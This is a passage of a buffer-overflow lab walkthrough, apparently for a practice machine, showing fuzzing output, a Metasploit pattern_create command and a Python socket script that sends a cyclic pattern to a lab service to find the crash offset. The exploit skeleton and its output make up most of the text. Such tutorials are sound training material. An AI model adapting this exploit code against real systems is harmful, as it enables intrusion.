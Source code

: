 ```
Fuzzing with 1800 bytes
Fuzzing with 1900 bytes
Fuzzing with 2000 bytes
Fuzzing crashed at 2000 bytes
```

With that value, we can now create a pattern of a higher amount of bytes than the maximum, let's do this:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200 > pattern.txt
```

Now, we can create a `exploit.py` file:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix  = "OVERFLOW1 "
offset  = 0
overflow= ""
retn    = ""
padding = ""
payload = ""
postfix = ""

# Read the pattern file:
with open("pattern.txt","r") as f:
    payload = f.read().strip()

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```

Before we use the script, we need to restart `oscp.exe` on immunity debugger, simply open it again as before and press the red play button:

![](cybersecurity/images/Pasted%2520image%252020250529122103.png)

Now, use the script:

```
python3 exploit.py

Sending test pattern...
```
